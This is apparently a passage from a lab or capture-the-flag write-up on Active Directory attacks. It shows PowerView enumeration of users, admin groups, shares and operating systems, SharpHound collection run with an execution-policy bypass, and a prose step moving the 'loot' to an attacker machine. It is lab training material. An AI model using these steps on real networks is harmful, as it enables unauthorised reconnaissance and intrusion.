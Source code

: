 Enumerate the domain users:

    PS C:\Users\Administrator\Downloads> Get-NetUser | select cn
    
    --
    Administrator
    Guest
    krbtgt
    Machine-1
    Admin2
    SQL Service
    POST{P0W3RV13W_FTW}
    sshd

Enumerate the domain groups:

    PS C:\Users\Administrator\Downloads> Get-NetGroup -GroupName *admin*
    Administrators
    Hyper-V Administrators
    Storage Replica Administrators
    Schema Admins
    Enterprise Admins
    Domain Admins
    Key Admins
    Enterprise Key Admins
    DnsAdmins

Enumerate shares:

    PS C:\Users\Administrator\Downloads> Invoke-ShareFinder
    \\Domain-Controller.CONTROLLER.local\ADMIN$     - Remote Admin
    \\Domain-Controller.CONTROLLER.local\C$         - Default share
    \\Domain-Controller.CONTROLLER.local\IPC$       - Remote IPC
    \\Domain-Controller.CONTROLLER.local\NETLOGON   - Logon server share
    \\Domain-Controller.CONTROLLER.local\Share      -
    \\Domain-Controller.CONTROLLER.local\SYSVOL     - Logon server share

Enumerate operating systems running inside the network:

    PS C:\Users\Administrator\Downloads> Get-NetComputer -fulldata | select operatingsystem*
    
    operatingsystem                  operatingsystemversion
    ---------------                  ----------------------
    Windows Server 2019 Standard     10.0 (17763)
    Windows 10 Enterprise Evaluation 10.0 (18363)
    Windows 10 Enterprise Evaluation 10.0 (18363)

### Enumeration with Bloodhound

    powershell -ep bypass 
    . .\Downloads\SharpHound.ps1
    Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip

Transfer the loot to attackerbox and load in bloodhound. Map the network.

### Dumping hashes with mimikatz
